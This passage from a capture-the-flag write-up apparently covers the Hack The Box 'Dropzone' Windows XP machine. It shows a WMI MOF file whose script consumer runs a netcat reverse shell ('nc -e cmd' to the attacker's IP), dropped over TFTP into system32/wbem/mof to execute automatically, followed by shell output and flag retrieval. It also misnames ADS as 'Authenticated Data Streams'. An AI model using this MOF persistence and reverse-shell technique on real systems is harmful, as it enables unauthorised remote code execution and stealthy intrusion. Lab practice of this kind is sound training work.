      Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass40351\"";
      QueryLanguage = "WQL";
    };
    instance of __EventFilter as $Filt2
    {
      Name = "qndfilt";
      Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"AndIsCool\"";
      QueryLanguage = "WQL";
    
    };
    instance of __FilterToConsumerBinding as $bind
    {
      Consumer = $cons;
      Filter = $Filt;
    };
    instance of __FilterToConsumerBinding as $bind2
    {
      Consumer = $cons2;
      Filter = $Filt2;
    };
    instance of MyClass40351 as $MyClass
    {
      Name = "ClassConsumer";
    };
    => nil
    >>
    

Now i'll copy this entire output into a file to edit:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → mkdir psexec
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Dropzone]
    → cd psexec
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → vim generated_mof
    
    

Now from here, we see that our file will be located in \\\\\"wbem\\\\\\\\\\\\\\\mof\\\\\\\\\\\\\\\good\\\\\\\\\\\\\\\IppsecRocks\\\\\ and the command we're running is ns.Run(\"AndIsCool\") which is a javascript command. Essentially MOF works by compiling syntax like this into the wbem database to execute said code. The idea here is to create a "FilterToConsumerBinding" to tie together a "EventFilter" and a "ActiveScriptEventConsumer" so that the FilterToConsumerBinding detects the Filtered Event (which could simply be something like watch when this file appears in the wbem database), it will launch the Script

(for more information about MOF check out these links: [pop pop ret mof](https://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html) and [BlackHat WMI talk from 2015 by Matt Graeber](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf))

Now let's trim the useless parts out of our generated mof file:
    
    
    #pragma namespace("\\\\.\\root\\cimv2")
    
    class MyClass40351
    {
            [key] string Name;
    };
    
    class ActiveScriptEventConsumer : __EventConsumer
    {
            [key] string Name;
            [not_null] string ScriptingEngine;
            string ScriptFileName;
            [template] string ScriptText;
      uint32 KillTimeout;
    };
    
    instance of __Win32Provider as $P
    {
        Name  = "ActiveScriptEventConsumer";
        CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
        PerUserInitialization = TRUE;
    };
    
    
    instance of __EventConsumerProviderRegistration
    {
      Provider = $P;
      ConsumerClassNames = {"ActiveScriptEventConsumer"};
    };
    
    Instance of ActiveScriptEventConsumer as $cons
    {
      Name = "ASEC";
      ScriptingEngine = "JScript";
      ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"AndIsCool\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass40351\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";
    
    };
    
    instance of __EventFilter as $Filt
    {
      Name = "instfilt";
      Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass40351\"";
      QueryLanguage = "WQL";
    };
    
    instance of __FilterToConsumerBinding as $bind
    {
      Consumer = $cons;
      Filter = $Filt;
    };
    
    instance of MyClass40351 as $MyClass
    {
      Name = "ClassConsumer";
    };
    
    

and from here, we don't want to run the command "AndIsCool" but we want the command "nc -e cmd 10.10.14.6 9002" so from inside vim you can run the following : **:%s/AndIsCool/nc -e cmd 10.10.14.6 9002/gi** in order to replace the AndIsCool pattern matched by regex to whatever other string we want. 

Now basically what this does is that our EventFilter will detect the creation of Class 27736, and when it gets created, it will launch the code we want (the netcat command)
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → ls -l
    total 4
    -rw-r--r-- 1 nothing nothing 1415 Dec 21 11:10 generated_mof
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → locate nc.exe
    /usr/lib/mono/4.5/cert-sync.exe
    /usr/share/windows-resources/binaries/nc.exe
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → cp /usr/share/windows-resources/binaries/nc.exe .
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → ls -l
    total 64
    -rw-r--r-- 1 nothing nothing  1415 Dec 21 11:10 generated_mof
    -rwxr-xr-x 1 nothing nothing 59392 Dec 21 11:10 nc.exe
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → file nc.exe
    nc.exe: PE32 executable (console) Intel 80386, for MS Windows
    
    

So now we have the correct 32bit nc.exe file we want, now let's upload it via tftp:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → tftp 10.10.10.90
    tftp> mode binary
    tftp> put nc.exe /windows/system32/nc.exe
    Sent 59392 bytes in 4.3 seconds
    tftp> quit
    
    

We switched from ascii to binary mode to upload our nc file properly:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/16 ] [_HTB/Dropzone/psexec]
    → l
    total 72K
    drwxr-xr-x 2 nothing nothing 4.0K Dec 21 11:10 .
    drwxr-xr-x 3 nothing nothing 4.0K Dec 21 10:48 ..
    -rw-r--r-- 1 nothing nothing 1.4K Dec 21 11:10 generated_mof
    -rwxr-xr-x 1 nothing nothing  58K Dec 21 11:10 nc.exe
    
    [ 10.10.14.6/23 ] [ /dev/pts/16 ] [_HTB/Dropzone/psexec]
    → tftp 10.10.10.90
    tftp> put generated_mof /windows/system32/wbem/mof/ippsecrocks.mof
    
    

Here basically we want to put our mof file into the /windows/system32/wbem/mof/ directory where it will be executed automatically

And we get a connection! now let's try to print the root flag:

## **Part 3 : Getting Root Access**
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.90] 1051
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\WINDOWS\system32>type C:\Docume~1\Admini~1\Desktop\root.txt
    type C:\Docume~1\Admini~1\Desktop\root.txt
    It's easy, but not THAT easy...
    
    C:\WINDOWS\system32>type "C:\Docume~1\Admini~1\Desktop\flags\2 for the price of 1!.txt"
    type "C:\Docume~1\Admini~1\Desktop\flags\2 for the price of 1!.txt"
    For limited time only!
    
    Keep an eye on our **ADS** for new offers & discounts!
    

And from here we see that root.txt isn't there, but in the flags directory we are hinted at ADS which stands for Authenticated Data Streams, however Windows XP does not have a method to view ADS natively, so that means we're going to download the required binary [here](https://docs.microsoft.com/en-us/sysinternals/downloads/streams): 

    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → wget https://download.sysinternals.com/files/Streams.zip
    --2020-12-21 11:22:51--  https://download.sysinternals.com/files/Streams.zip
    Resolving download.sysinternals.com (download.sysinternals.com)... 152.199.19.160
    Connecting to download.sysinternals.com (download.sysinternals.com)|152.199.19.160|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 511505 (500K) [application/octet-stream]
    Saving to: ‘Streams.zip’
    
    Streams.zip                       100%[===========================================================>] 499.52K  --.-KB/s    in 0.09s
    
    2020-12-21 11:22:52 (5.67 MB/s) - ‘Streams.zip’ saved [511505/511505]
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → unzip Streams.zip
    Archive:  Streams.zip
      inflating: streams.exe
      inflating: streams64.exe
      inflating: streams64a.exe
      inflating: Eula.txt
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → file streams.exe
    streams.exe: PE32 executable (console) Intel 80386, for MS Windows
    
    

So here we're going to send the 32 bit executable obviously, and we're putting it in /windows/system32/ to avoid the need to type the absolute path everytime:
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → file streams.exe
    streams.exe: PE32 executable (console) Intel 80386, for MS Windows
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [_HTB/Dropzone/psexec]
    → tftp 10.10.10.90
    tftp> mode binary
    tftp> put streams.exe /windows/system32/streams.exe
    Sent 342392 bytes in 30.2 seconds
    
    
    
    
    cd C:\docume~1\administrator\desktop\flags\
    streams -accepteula
    streams 2*
    
    

And there we have it!

And that's it ! we have been able to get both flags for this box.

## **Conclusion**

Here we can see the progress graph :

